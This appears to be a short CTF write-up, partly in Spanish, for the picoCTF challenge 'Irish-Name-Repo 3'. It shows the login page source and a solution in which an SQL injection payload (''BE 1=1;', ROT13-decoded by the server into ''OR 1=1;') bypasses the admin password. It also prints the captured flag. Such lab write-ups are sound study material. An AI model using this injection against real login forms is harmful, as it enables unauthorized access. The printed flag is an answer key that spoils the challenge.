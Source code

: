 # Irish-Name-Repo 3
## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
## Pistas
P1: Seems like the password is encrypted.
P2:
## Datos de acceso al nivel
```bash
Usuario: Dena
Contraseña: Notedigo
```
## Solución
```bash
Pass siguiente lvl: picoCTF{3v3n_m0r3_SQL_4424e7af}
--------------------------------------------------------------------
|   |   |
|---|---|
||<!doctype html>|
||<html>|
||<head>|
||<title>Login</title>|
||<link rel="stylesheet" type="text/css" href="[//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css](https://maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css)">|
||</head>|
||<body>|
||<div class="container">|
||<div class="row">|
||<div class="col-md-12">|
||<div class="panel panel-primary" style="margin-top:50px">|
||<div class="panel-heading">|
||<h3 class="panel-title">Admin Log In</h3>|
||</div>|
||<div class="panel-body">|
||<form action="login.php" method="POST">|
||<fieldset>|
||<div class="form-group">|
|||
||<label for="password">Password:</label>|
||<div class="controls">|
||<input type="password" id="password" name="password" class="form-control">|
||</div>|
||</div>|
||<input type="hidden" name="debug" value="0">|
|||
||<div class="form-actions">|
||<input type="submit" value="Login" class="btn btn-primary">|
||</div>|
||</fieldset>|
||</form>|
||</div>|
||</div>|
||</div>|
||</div>|
||</div>|
||</body>|
||</html>|
|||
--------------------------------------------------------------------
password: 'BE 1=1;
SQL query: SELECT * FROM admin where password = ''OR 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```
## Notas Adicionales

| Comando  | Descripción | 
|------------|--------------|

## Referencias 
